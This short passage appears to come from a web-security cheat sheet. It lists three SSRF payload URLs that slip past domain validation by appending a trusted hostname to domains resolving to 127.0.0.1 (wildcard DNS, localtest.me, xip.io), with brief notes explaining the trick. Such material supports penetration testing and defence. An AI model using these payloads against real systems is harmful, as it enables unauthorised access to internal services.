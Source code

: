 #### 5.1. SSRF 4

```
$target/?url=http://test.realsite.com.bank.com:1234
$target/?url=http://test.realsite.com.localtest.me:1234
$target/?url=http://test.realsite.com.127.0.0.1.xip.io:1234
```

Note:
   - main domain `bank.com`
   - make DNS for `*.bank.com` point to `127.0.0.1`
   - `test.realsite.com.<DOMAIN>` will bypass the domain validation
   - `http://readme.localtest.me/`
   - `127.0.0.1.xip.io` or `<ANY_IP>.xip.io`
